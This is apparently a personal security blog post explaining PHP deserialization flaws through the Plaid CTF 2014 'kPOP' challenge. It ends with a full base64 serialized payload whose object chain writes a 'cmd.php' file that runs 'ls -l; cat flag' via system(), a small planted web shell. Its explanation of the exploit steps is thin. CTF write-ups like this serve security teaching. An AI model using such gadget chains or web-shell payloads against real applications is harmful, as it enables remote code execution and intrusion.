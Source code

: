 ```yaml
---
layout:     post
title:      Exploring Deserialization Attacks and Their Effects
date: 2024-09-07 12:00
summary:    Uncover how deserialization attacks work with real-world examples and learn how to mitigate their risks.
categories: security
---
```


Cheers!
<br />
I took a short break and returned with a new security post :relaxed:
<br /><br />
Let's discuss today on what Deserialization is and how to identify it, as it can sometimes lead to Remote Code Execution (RCE), Privilege Escalation and additional vulnerabilities with severe impacts on the entire application.
<br /><br />
This time, I was digging deep inside the Internet and discovered a cool Deseralization challenge from '<a href="https://ctftime.org/event/119">Plaid CTF 2014</a>' called 'the kPOP challenge' which will help us better understand this vulnerability in this blog post.
<br /><br />
__Note:__ This challenge can be solved using two different approaches to achieve the same outcome. In this post, we will present one of them.
<br /><br />
The CTF source code files can be downloaded directly from <a href="https://github.com/pwning/plaidctf2014/tree/master/web/kPOP">plaidctf2014 </a> Github repo.

<p align="center">
  <img src="{{ site.url }}/images/i_dunno_what_to_choose.jpeg" alt="i_dunno_what_to_choose" />
</p>

<br />
In PHP, some applications involve handling serialized data, often encoded in base64 format, to function correctly. It's crucial to examine how this data is unserialized to ensure it is done safely. We want to look after instances where data is unserialized without proper validation or where serialized input is trusted directly. Key indicators of potential vulnerabilities include the use of functions like `unserialize()` and `serialize()` with user-provided input, which can expose the application to risks if not carefully managed.
<br /><br />
The first step is to enumerate the classes used in the application and examine their relationships and correlations. This can be easily achieved by using `CTRL+SHIFT+F` in Visual Studio Code:
<br />
<p align="center">
  <img src="{{ site.url }}/images/vscode_classes_list.png" alt="vscode_classes_list" />
</p>

To better understand the relationships between kPOP classes in a more visual way, we can create a UML diagram. This diagram represents the system's structure and design, illustrating the various classes and their relationships, including inheritance, associations, and dependencies:
<br />

<p align="center">
  <img src="{{ site.url }}/images/kpop_uml.png" alt="kpop_uml" />
</p>
<p align="center">kPOP UML Diagram</p>

<br />
The final serialized payload will be as follows, in Base64 format:

`Tzo2OiJMeXJpY3MiOjI6e3M6OToiACoAbHlyaWNzIjtzOjEyOiJzaGVsbF9seXJpY3MiO3M6`
<br />
`NzoiACoAc29uZyI7Tzo0OiJTb25nIjo0OntzOjk6IgAqAGxvZ2dlciI7Tzo2OiJMb2dnZXIi`
<br />
`OjE6e3M6MTI6IgAqAGxvZ3dyaXRlciI7TzoxNDoiTG9nV3JpdGVyX0ZpbGUiOjI6e3M6MTE6`
<br />
`IgAqAGZpbGVuYW1lIjtzOjc6ImNtZC5waHAiO3M6OToiACoAZm9ybWF0IjtPOjEzOiJMb2dG`
<br />
`aWxlRm9ybWF0IjoyOntzOjEwOiIAKgBmaWx0ZXJzIjthOjE6e2k6MDtPOjEyOiJPdXRwdXRG`
<br />
`aWx0ZXIiOjI6e3M6MTU6IgAqAG1hdGNoUGF0dGVybiI7czoxOToiL1xbaVxdKC4qKVxbXC9p`
<br />
`XF0vaSI7czoxNDoiACoAcmVwbGFjZW1lbnQiO3M6OToiPGk+XDE8L2k+Ijt9fXM6NzoiACoA`
<br />
`ZW5kbCI7czoxOiIKIjt9fX1zOjc6IgAqAG5hbWUiO3M6MzU6Ijw/cGhwIHN5c3RlbSgnbHMg`
<br />
`LWw7IGNhdCBmbGFnJyk7ID8+IjtzOjg6IgAqAGdyb3VwIjtzOjExOiJzaGVsbF9ncm91cCI7`
<br />
`czo2OiIAKgB1cmwiO3M6MTk6Imh0dHBzOlwvXC9zaGVsbC5jb20iO319`


We can use the PlantUML Editor[^1] to visualize the decoded payload in a Class Object format:
<br />

<p align="center">
  <img src="{{ site.url }}/images/unserialize_poc.png" alt="unserialize_poc" />
</p>
<p align="center">PHP Class Object representation</p>

### Conclusion

PlantUML Editor[^1]
<br />
Online PHP Unserializer[^2]

<br />
Thanks for reading!

<br />
__Disclaimer:__ This material is for informational purposes only, and should not be construed as legal advice or opinion. For actual legal advice, you should consult with professional legal services.

---

[^1]: [PlantUML Online Editor](https://www.plantuml.com/)
[^2]: [Online PHP Unserializer](https://www.unserialize.com/)